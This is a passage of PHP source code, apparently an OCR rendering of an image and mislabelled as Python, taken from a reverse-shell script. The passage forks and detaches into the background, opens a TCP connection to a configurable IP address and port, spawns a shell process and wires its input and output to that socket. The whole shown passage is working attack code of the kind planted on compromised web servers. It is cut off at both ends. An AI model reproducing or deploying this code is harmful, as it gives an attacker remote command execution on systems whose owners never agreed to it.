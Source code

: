 ```python
            $pid = pcntl_fork();
            if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
            }
            if ($pid) {
                exit(0);  // Parent exits
            }
             // Make the current process a session leader
            // Will only succeed if we forked
             if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
            }
            $daemon = 1;
        } else {
            printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
        }
         // Change to a safe directory
        chdir("/");
        // Remove any umask we inherited
        umask(0);
        //
        // Do the reverse shell...
        //
        // Open reverse connection
         $sock = fsockopen($ip, $port, $errno, $errstr, 30);
        if (!$sock) {
            printit("$errstr ($errno)");
            exit(1);
        }
         // Spawn shell process
         $descriptorspec = array(
           0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
           1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
           2 => array("pipe", "w")   // stderr is a pipe that the child will write to
        );
        $process = proc_open($shell, $descriptorspec, $pipes);
        if (!is_resource($process)) {
            printit("ERROR: Can't spawn shell");
            exit(1);
        }
         // Set everything to non-blocking
        // Reason: Occsionally reads will block, even though stream_select tells us they won't
         stream_set_blocking($pipes[0], 0);
        stream_set_blocking($pipes[1], 0);
        stream_set_blocking($pipes[2], 0);
        stream_set_blocking($sock, 0);
        printit("Successfully opened reverse shell to $ip:$port");
        while (1) {
             // Check for end of TCP connection
             if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
            }
             // Check for end of STDOUT
             if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
            }
             // Wait until a command is end down $sock, or some
            // command output is available on STDOUT or STDERR
             $read_a = array($sock, $pipes[1], $pipes[2]);
```
